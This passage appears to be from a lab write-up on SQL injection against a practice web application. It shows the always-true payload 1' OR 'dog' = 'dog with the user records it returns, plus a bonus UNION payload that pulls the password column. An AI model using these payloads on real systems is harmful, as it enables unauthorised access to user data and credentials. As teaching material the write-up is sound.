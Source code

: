     - This closely matches the results from Step 2 of the SQL script run on DB Fiddle, except for the id field. The application is designed to return the payload entered in this field:
      
      first_name | last_name 
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith

3. Use another always true payload to test  the unintended use of the web application.

    - The third query was `select first_name, last_name from users where id = '1' OR 'dog' = 'dog'`.
      
    - Since the payload is all the data between the first and last single quote, the payload is `1' OR 'dog' = 'dog`.
      
    - The results will be as follows:     
      
      ```
      ID: 1' OR 'dog' = 'dog
      First name: admin
      Surname: admin

      ID: 1' OR 'dog' = 'dog
      First name: Gordon
      Surname: Brown

      ID: 1' OR 'dog' = 'dog
      First name: Hack
      Surname: Me

      ID: 1' OR 'dog' = 'dog
      First name: Pablo
      Surname: Picasso

      ID: 1' OR 'dog' = 'dog
      First name: Bob
      Surname: Smith
      ```
  
    - The results match the script from DB Fiddle:   
  
      first_name | last_name
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith   
          
4. **Bonus**: Use a payload to pull data from hidden fields. 

    - The query was `select first_name, last from users where id = '1' UNION select first_name, password from users where '1' = '1'`.
     
    - The payload was `1' UNION select first_name, password from users where '1' = '1`.
     